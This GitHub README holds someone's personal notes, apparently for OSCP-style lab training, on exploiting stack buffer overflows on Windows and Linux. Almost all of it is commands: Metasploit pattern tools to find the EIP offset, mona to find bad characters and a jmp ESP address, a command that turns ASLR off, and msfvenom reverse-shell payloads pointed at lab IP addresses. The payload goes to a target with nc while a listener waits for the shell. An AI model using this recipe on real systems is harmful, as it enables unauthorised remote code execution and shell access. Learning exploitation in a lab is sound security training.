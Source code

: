 # OSC_BoF
This Rep describes my steps for BoF. 


1. To find the EIP offset net to create a pattern with msfvenom 

 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > exploit.txt
 -> check the EIP value: example EIP: 43346943
 then use command to find out the offset: 
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 42367242
 additional step:  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q Aa0A (first 4 chars of offset to find how many chars until ESP)
 offset = 1812, -> need to fill until then with 1812 Chars
 1. Step in code: #buf = b"A" * OFFSET #junk get to EIP

2. Find bad Characters, send all chars, in hex to File and filter out bad ones: 
3. shortcut with Mona: !mona config -set workingfolder c:\log\%p
   !mona bytearray -> create bytearray.bin
   
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 
   
   !mona bytearray -cpb "\x00\x06\x0a\x1a\"
   
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 

4. find a jmp ESP instruction in code, so that we can put in our shellcode 
5. Windows: use mona !mona jmp -r esp -cpb "\x00\x1a" use jump esp instruction, to fin the right address. 
   Linux: need to disable ASLR: 
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   check with: 
   cat /proc/sys/kernel/randomize_va_space
   needs to be 0, 2 means activated
    in ebd, use plugin Optcode searcher and look for ESP - EIP, and first instruction that has jmp ESP
5. take the address of jump instruction and write it backwards, ex: 0x5e9a515e -> EIP="\x5e\x51\x9a\x5e" 
6. new code: #buf = b"A" * OFFSET + EIP   
7. next add 16x NOPs: b"\x90" *16
8. new code: #buf = b"A" * OFFSET + EIP + "\x90" *16
9. create the shellcode with MSFvenom:
       msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.45.214 LPORT=443 -f py -v buf -b "\x00\x06\x0a\x1a\x3b\xcf
       msfvenom -p windows/exec CMD='cmd.exe' --format c -b "\x00\x06\x0A\x1A\x3B\xCF\x0d\xff" -f raw -o exploit.txt
       msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.178 LPORT=443 -o exploit.txt -b "\x00\x0a\x1a"
       msfvenom -a x86 --platform Linux -p linux/x86/shell_reverse_tcp LHOST=192.168.45.221 LPORT=443 -f py -v buf -b "\x00\x0a\x0d\x1a\x20\x43\x75\x9e\xbc"
9. write final: 
                f = open("/home/kali/Downloads/exploit.txt", "wb")
                f.write(buf)
                f.close()
 10. send to server: 
 cat exploit.txt - | nc 192.168.221.52 5000
and set nc listner: nc -nvlp 443



xxd -g 1 exploit.txt -> to read out the chars 

objdump -d execution-flow-windows.exe | grep flag




